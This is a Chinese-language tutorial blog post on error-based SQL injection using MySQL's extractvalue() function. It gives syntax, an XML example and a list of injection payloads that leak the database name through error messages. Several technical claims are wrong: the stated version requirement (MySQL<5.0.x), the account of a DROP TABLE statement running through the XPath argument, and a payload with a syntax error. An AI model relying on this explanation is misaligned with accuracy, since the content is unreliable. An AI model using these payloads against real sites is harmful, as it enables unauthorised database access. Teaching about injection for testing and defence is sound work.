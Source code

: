 # 原创
：  【sql注入-报错注入1】extractvalue()函数 报错注入

# 【sql注入-报错注入1】extractvalue()函数 报错注入

**目录**

[extractvalue()报错注入](#extractvalue%28%29%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5)

[一、语法介绍：](#%E4%B8%80%E3%80%81%E8%AF%AD%E6%B3%95%E4%BB%8B%E7%BB%8D%EF%BC%9A)

[二、报错原因](#%E4%BA%8C%E3%80%81%E6%8A%A5%E9%94%99%E5%8E%9F%E5%9B%A0)

[网络安全小圈子](#%E4%B8%89%E3%80%81%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%B0%8F%E5%9C%88%E5%AD%90)

---


（***注：注意看版本要求）

## extractvalue()报错注入

### 一、语法介绍：

版本：

MySQL&lt;5.0.x

---


语法：

EXTRACTVALUE(xml_expression, xpath_expression)

xml_expression是一个XML类型的字段或表达式，xpath_expression是一个XPath表达式，用于指定要提取的节点。

---


原理：
1. 首先，函数会对xml_expression进行解析，将其转换为一个XML文档对象。1. 然后，函数使用xpath_expression指定的路径来定位要提取的节点。1. 最后，函数返回找到的节点的值
---


使用：

假设一个XML类型的字段xml_data，如下

```
&lt;book&gt;
  &lt;title&gt;Harry Potter&lt;/title&gt;
  &lt;author&gt;J.K. Rowling&lt;/author&gt;
  &lt;year&gt;2001&lt;/year&gt;
&lt;/book&gt;
```

可以使用extractvalue()函数来提取其中的节点值，如下

```
SELECT EXTRACTVALUE(xml_data, '/book/title') AS title,
       EXTRACTVALUE(xml_data, '/book/author') AS author,
       EXTRACTVALUE(xml_data, '/book/year') AS yearFROM books;
```

上述SQL语句将从xml_data字段中提取出"title"、"author"和"year"节点的值，然后将其作为结果集返回

---


---


### 二、报错原因

产生原因：

在extractvalue()函数中，如果xpath_expression参数可以由用户输入控制，攻击者可以构造恶意的XPath表达式，从而执行注入攻击。例如，攻击者可以构造一个恶意的输入，使得xpath_expression参数成为一个恶意的SQL语句。

---


示例：

```
SELECT * FROM books WHERE title = EXTRACTVALUE(xml_data, '/book/title')
```

如果xpath_expression参数可以由用户输入控制，攻击者可以构造一个恶意的输入，例如：

```
'; DROP TABLE books; --
```

这样，最终构造出的XPath表达式为：

```
/book/title'; DROP TABLE books; --
```

当该恶意输入被传递给extractvalue()函数时，它会将恶意的XPath表达式作为参数执行。由于XPath表达式中包含了一个SQL注释符（--），后续的SQL语句将被忽略，从而导致DROP TABLE books语句被执行，删除了books表。

---


payload：

```
and (extractvalue(1,concat('~'(select database()))));

and (extractvalue('anything',concat('/',(select database()))));

and (extractvalue('anything',concat('~',substring((select database()),1,5))));

and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```

---


---


## 网络安全小圈子

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)

[GitHub - BLACKxZONE/Treasure_knowledge<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)
